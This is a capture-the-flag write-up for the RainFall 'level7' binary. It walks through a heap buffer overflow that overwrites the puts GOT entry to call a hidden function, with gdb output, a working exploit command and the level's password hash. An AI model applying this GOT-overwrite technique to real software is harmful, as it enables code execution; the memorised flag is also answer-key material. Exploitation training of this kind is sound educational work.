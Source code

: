 Looking at file source, the password is stored in a global variable at the end of main

we will try to overwrite call to function `puts` to call to function `m` to read the global cvariable c

### Lets find the addresse of `puts` and address of `m`

```console
(gdb) x &puts
0xb7e927e0 <puts>:	0x893cec83
```

```console
(gdb) x &m
0x80484f4 <m>:	0x83e58955
```

We try to overwrite the GOT table

Address of puts@GOT 08049928 -->\x28\x99\x04\x08

Address of m = `0x080484f4` == `\xf4\x84\x04\x08`

### How to overwrite address of got ?

Through a heap buffer overflow !

```console
(gdb) x/50x 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
0x804a030:	0x00000000	0x00000011	0x42424242	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000
```

With `argv[1]` we will write in `str1`. we will overflow to write the address of `m` on the address of `put` in the got table

so first we have to overwrite the address of the 2nd structure on the heap with the address of `put` in got

Address of puts in the GOT:

```
level7@RainFall:~$ objdump -R level7 | grep puts
08049928 R_386_JUMP_SLOT   puts
```

`08049928` == `\x28\x99\x04\x08`

`"A" * 20 + "\x28\x99\x04\x08" `

when we arrive at the second strcpy we can write the value of m inside the overwrited pointer of put in GOT

`\xf4\x84\x04\x08`

### Payload

```
./level7 `(python -c 'print ("A" * 20 + "\x28\x99\x04\x08")')` `(python -c 'print ("\xf4\x84\x04\x08")')`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```
